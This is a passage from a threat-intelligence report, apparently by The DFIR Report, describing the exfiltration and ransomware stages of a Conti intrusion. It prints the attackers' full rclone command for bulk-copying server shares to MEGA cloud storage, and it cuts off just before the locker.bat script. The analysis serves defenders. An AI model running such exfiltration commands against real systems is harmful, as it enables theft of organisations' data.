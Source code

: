 ```


```

### Exfiltration


Once the attackers established access to critical assets, they used RClone to exfiltrate sensitive data to a cloud storage space named [MEGA](https://mega.io/). The full command used by Rclone includes a variety of parameters, including setting the bandwidth limit.



```
rclone.exe  copy --max-age 2y "\\SERVER\Shares" Mega:DATA -q --ignore-existing --auto-confirm --multi-thread-streams 7 --transfers 7 --bwlimit 10M

```

The use of RClone continues to be an effective tool for bulk data exfiltration. NCC Group has provided a [detailed write-up](https://research.nccgroup.com/2021/05/27/detecting-rclone-an-effective-tool-for-exfiltration/) of the Rclone application and detection methods.


The Rclone activity was observed on two separate instances, each lasting around three hours and occurring between 1900 and 2200 UTC.




---


[![](https://thedfirreport.com/wp-content/uploads/2021/11/509f3eb0a90b9b0912db53aa28219919244632a50c04e3d810a0acf874db241d.png)](https://thedfirreport.com/wp-content/uploads/2021/11/509f3eb0a90b9b0912db53aa28219919244632a50c04e3d810a0acf874db241d.png)




---


### Impact


On the fifth day, the threat actors moved to their final actions to encrypt the domain. They first pinged systems across the network via an interactive command shell. [Iobit unlocker](https://www.iobit.com/en/iobit-unlocker.php) was also dropped during this phase but we did not see it used. After pinging systems, the threat actors opened a batch file that was ultimately used to launch the Conti ransomware.


[![](https://thedfirreport.com/wp-content/uploads/2021/11/f3a3a919075ac160b8b18838ec9cef851eafe21ccb08c306f068ef7b0f6dead3.png)](https://thedfirreport.com/wp-content/uploads/2021/11/f3a3a919075ac160b8b18838ec9cef851eafe21ccb08c306f068ef7b0f6dead3.png)


The locker.bat is a bespoke script designed to encrypt files across a number of hosts:




---